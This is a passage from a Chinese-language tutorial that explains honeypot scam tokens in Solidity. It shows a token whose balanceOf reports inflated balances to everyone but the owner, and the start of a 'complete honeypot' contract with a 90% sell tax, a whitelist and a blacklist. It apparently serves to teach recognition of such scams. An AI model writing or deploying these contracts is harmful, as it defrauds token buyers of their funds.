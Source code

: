 ```solidity
}
```

### 3.5 修改 balanceOf

```solidity
contract FakeBalanceToken {
    mapping(address => uint256) private _realBalances;
    
    // ❌ 显示假的余额
    function balanceOf(address account) public view returns (uint256) {
        if (account == owner) {
            return _realBalances[account];
        }
        
        // 给普通用户显示假余额
        return _realBalances[account] * 1000; // 显示1000倍
    }
    
    function transfer(address to, uint256 amount) public returns (bool) {
        // 但实际转账用真实余额，会失败
        _realBalances[msg.sender] -= amount;
        _realBalances[to] += amount;
        return true;
    }
}
```

---

## 4. 貔貅代币示例

### 4.1 完整的貔貅代币

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract CompleteHoneypot {
    string public name = "HoneyPot Token";
    string public symbol = "HONEY";
    uint8 public decimals = 18;
    uint256 public totalSupply = 1000000 * 10**18;
    
    address public owner;
    address public uniswapPair;
    
    bool public tradingEnabled = false;
    uint256 public sellTax = 90; // 90% 卖出税
    
    mapping(address => uint256) private balances;
    mapping(address => mapping(address => uint256)) private allowances;
    mapping(address => bool) public whitelist;
    mapping(address => bool) public blacklist;
    
    constructor() {
        owner = msg.sender;
        balances[owner] = totalSupply;
        whitelist[owner] = true;
    }
    
    function setUniswapPair(address _pair) public {
        require(msg.sender == owner);
        uniswapPair = _pair;
```